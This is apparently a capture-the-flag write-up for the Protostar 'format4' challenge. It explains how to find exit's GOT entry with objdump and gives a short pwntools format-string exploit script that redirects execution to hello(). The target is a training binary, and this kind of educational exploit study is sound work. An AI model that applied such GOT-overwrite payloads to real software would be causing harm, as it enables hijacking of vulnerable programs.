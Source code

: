 This is the final format string challenge from Protostar. The objective here is to reach the "hello()" function. We can do this by overwriting the GOT entry of the exit function with address of "hello()"


After finding the hello() offset through objdump, we can follow the hint on the website and use `objdump -TR format4` to view the location of the exit function we want to overwrite
```
objdump -TR format4

...

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin@@GLIBC_2.0
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets@GLIBC_2.0
08049714 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
08049718 R_386_JUMP_SLOT   _exit@GLIBC_2.0
0804971c R_386_JUMP_SLOT   printf@GLIBC_2.0
08049720 R_386_JUMP_SLOT   puts@GLIBC_2.0
08049724 R_386_JUMP_SLOT   exit@GLIBC_2.0
```
Now we have the address "0x08049724" we can start to exploit the program.

Using the same methods as before the offset is found and through gdb we can see that the exit function is being overwritten. And like before we are able to use the decimal version of that address and use that as the number of bytes we want to write in. 

This gets us pretty close and after a couple of "SIGILL"s from landing in the wrong part of the hello() function, we are able to hit the correct part and beat the challenge.

### Exploit Code
**Same Method as format3**
```
from pwn import *

exit_GOT = p32(0x08049724)

payload = ""
payload += exit_GOT
payload += "A" * 12
payload += "%4$134513828x"
payload += "%4$n"
payload = payload + "A" * (512-len(payload))

print(payload)
```
```
python exploit.py | ./format4

"code execution redirected! you win"
```

